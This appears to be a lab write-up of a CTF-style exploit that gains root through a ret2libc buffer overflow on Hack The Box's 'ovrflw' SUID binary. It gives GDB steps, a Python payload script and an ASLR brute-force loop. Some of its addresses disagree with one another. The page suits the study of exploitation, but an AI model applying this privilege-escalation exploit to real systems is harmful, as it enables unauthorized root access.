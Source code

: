 # Buffer Overflows

## Return Oriented Programming (ROP) Buffer Overflow
The following commands can be used in a Return Oriented Programming (ROP) buffer overflow attack to bypass NX/DEP protection.  The following example makes use of the `ovrflw` ELF Linux binary found on the October Hack The Box machine.  All tools necessary are built into Kali Linux.

The ovrflw binary is 32 bit and has NX enabled and the system has Address Space Layout Randomisation enabled.


### Finding the point that overwrites EIP CPU Register

The following command can be used to generate a 500 character non repeating pattern to overlow the program:

```/usr/bin/msf-pattern_create -l 500```

The resulting output can be fed as an input to the binary:

```./ovrflw Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A...```

You can increase the length of the pattern generated by the `/usr/bin/msf-pattern_create` command and send it to the program, until the program generates a `segmentation fault` error.

Upon the generation of a `segmentation fault`being thrown by the overflw program, it can then be ran within the debugger GDB to find what section of the pattern overwrote the EIP CPU register:

```gdb ./ovrflw```

Now a break point for the `main()` function can be added, the the program will pause once run within GDB.  The following code will add the break point:

```(gdb) b main```

The program can now be run by pressing the "r" key followed by the none repeating string of characters (in this case 500):

```r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4A...```

To continue the exection of the program the "c" key can be pressed.  This will result in a "
Program received signal SIGSEGV, Segmentation fault." error.

To view the curent values of the registers within GDB use the command:
`info registers`

Take the value held in the EIP register.  In this case it is `0x64413764`.  This value can be passed into msf-pattern_offset to find out the offset necessary to crash the program:

```msf-pattern_offset -q 0x64413764```

This showed the offset at the point EIP was overwritten was 112.  This means that 112 characters can be passed to the program to generate a segmentation fault.  

### Exploiting the buffer overflow using python and bash

Now three values are necessary to exploit the buffer overflow.  The addresses of system, exit and "/bin/sh" - in that order.

GDB can be used to find the address of system by running the following commands
``` gdb ./ovrflw 
b main
r
p system 
```

The `p system` command will give the address of where `system` is located, which in this case is `0xb765c310`.

Now to get the offset of "/bin/sh". GDB can be used to search for this value using the find command:

`find 0xb7646310, +9999999, "/bin/sh"`

The command will start at the system address and look for the pattern "/bin/sh" and then return the address offset once found.  The +999.. tells the command how far to look ahead from the system address. This can be incremented until the address is found.

The address of "/bin/sh" was found to be `0xb777ebac`.

The exit address can be found using the following command in GDB:

`p exit `

This gives the exit address 0xb764f260

The exploit will be 112\*characters + system address + exit address + "/bin/sh" address.  The following python exploit code contains the aforementioned structure.  Note that the struct library is used to put the data in little endian format, denoted by the "<I".  For instance, this would convert the exit address 0xb764f260 to 0x60f264b7.


#### Python Exploit Code
Save the code into a file named exploit.py and make it executable using `chmod +x`.
```#!/usr/bin/python

import struct

system_mem = struct.pack("<I", 0xb7646310)
binsh_mem = struct.pack("<I", 0xb7768bac)
exit_mem = struct.pack("<I", 0xb7639260)

payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab"
payload += system_mem
payload += exit_mem
payload += binsh_mem

print(payload)
```

### Bypassing Address Space Layout Randomisation (ASLR)

ASLR randomises the position of the executable and the libraries it uses in Random Access Memory (RAM), in an effort to secure against buffer overflows.  

This can be bypassed by executing a program a number of times, until the same address values are reused.  The following Linux bash command will run the `ovrflw` program and give the python script as the input.  The program will be executed 512 times, in an effort to trigger the buffer overlow using the addresses taken from within GDB:

```for i in `seq 0 500`; do /usr/local/bin/ovrflw `python exploit.py`;done```

Once the buffer overflow is successful, the "/bin/sh" shell will be ran as the root user, due to the SUID bit being set on the binary.

### Second Exploit Method python




